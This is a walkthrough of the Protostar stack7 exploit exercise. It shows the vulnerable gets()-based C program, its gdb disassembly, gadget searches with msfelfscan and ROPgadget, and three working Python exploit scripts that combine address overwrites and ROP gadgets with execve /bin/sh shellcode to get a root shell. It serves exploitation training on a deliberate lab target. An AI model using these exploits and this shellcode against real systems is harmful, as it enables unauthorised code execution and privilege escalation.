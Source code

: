 ```yaml
---
title: "Protostar stack7 walkthrough"
date: 2020-05-22
tags: [protostar, stack7, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack7](https://exploit-exercises.lains.space/protostar/stack7/)

#### About
Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

#### Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();



}
```

#### Procedure:

The aim is to get a root shell. Similar to the previous problem, we need to overwrite the return pointer. But this time, the return pointer should not be in 0xbf000000 address space (basically stack). As suggested, we can set the return pointer to /bin/sh in libc. We can also set it to itsef so that it fails the 'if' condition and doesn't exit. Then we can use shell code

###### Vulnerability:

`gets` is vulnerable function.


###### Disassembly:

```
gdb ./stack7
set disassembly-flavor intel
disassemble getpath
disassemble main
```

```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
End of assembler dump.
(gdb) break *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
```

First, lets get the esp value when ret is executed. We can find out that its 0xbffff7bc.
Like we did in stack6, we can use a similar exploit to get the shell

```
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048544)
eip += struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + nopsled + shellcode
```

![root-regular]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-regular.png)

But we cannot use this method everytime. We might run into some bad characters (like \x00 or \x0a or \x0d) or ASLR might be enabled. So, we cannot use the hardcoded addresses all the time. We can use ret2libc like we did in stack6. We can also search for ROP gadgets and use them.

As suggested, we can use `msfelfscan` to find these.

I looked for any `jmp esp` commands using `/usr/share/framework2/msfelfscan -j esp -f stack7` but couldn't find anything. But there are three `pop pop ret` commands

```
/usr/share/framework2/msfelfscan -s -f stack7
0x08048492   ebx ebp ret
0x080485f7   ebx ebp ret
0x080485c7   edi ebp ret
```

We can also use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find all unique ROPs using `ROPgadget --binary stack7`

Lets use the address 0x08048492. Once we write the ret pointer (0xbffff7bc) to this address, We need to have some values on stack for each pop and a return address for the return  pointer. Lets add the in the sploit script.

```
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048492)
pop1 = "PPPP"
pop2 = "QQQQ"
ret = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + pop1 + pop2 + ret +nopsled + shellcode
```

This will give us the root shell

![root-rop]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-rop.png)

Lets use another ROP chain to get shell.

From `ROPgadget` there are many gadgets. 

![ropgadgets]({{site.url}}{{site.baseurl}}/images/protostar/stack7/ropgadgets.png)

Lets try to use `call eax`
```
0x080484bf : call eax
```

Lets use this address for eip

```
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x080484bf)
esp = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + esp +nopsled + shellcode
```

![root-esp]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-esp.png)

We can see that we'll get shell again.


